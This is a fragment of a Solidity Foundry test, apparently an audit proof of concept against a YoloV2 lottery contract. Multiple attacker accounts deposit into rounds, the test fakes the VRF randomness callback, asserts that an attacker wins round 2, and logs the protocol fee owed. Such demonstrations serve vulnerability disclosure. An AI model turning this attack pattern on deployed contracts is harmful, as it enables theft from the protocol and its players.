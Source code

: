```solidity
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        vm.startPrank(attacker7);
        vm.deal(attacker7, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        /// @notice simulate returning random word 

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yoloV2).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID_2, randomWords);

        uint40 maximumNumberOfParticipants2;
        uint16 roundProtocolFeeBp2;
        uint40 cutoffTime2;
        address winner2;
        IYoloV2.Deposit[] memory deposits2;
        IYoloV2.RoundStatus status2;
        uint40 drawnAt2;
        uint40 numberOfParticipants2;
        uint96 roundValuePerEntry2;
        uint256 protocolFeeOwed2;
        (
            status2,
            maximumNumberOfParticipants2, 
            roundProtocolFeeBp2, 
            cutoffTime2, 
            drawnAt2, 
            numberOfParticipants2, 
            winner2, 
            roundValuePerEntry2, 
            protocolFeeOwed2, 
            deposits2
        ) = yoloV2.getRound(2);

        assertTrue(
            winner2 == attacker || 
            winner2 == attacker1 || 
            winner2 == attacker2 || 
            winner2 == attacker3 ||
            winner2 == attacker4 || 
            winner2 == attacker5 || 
            winner2 == attacker6 || 
            winner2 == attacker7
        );
        console2.log("Protocol fee owed for the second round: ", protocolFeeOwed2);
}
```
